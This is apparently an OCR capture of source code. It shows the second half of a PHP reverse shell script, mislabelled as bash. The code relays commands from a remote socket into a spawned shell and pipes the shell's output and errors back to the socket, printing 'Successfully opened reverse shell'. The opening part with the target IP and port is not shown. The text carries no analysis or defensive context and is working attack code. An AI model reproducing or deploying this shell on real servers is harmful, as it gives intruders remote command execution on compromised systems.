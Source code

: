 ```bash

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```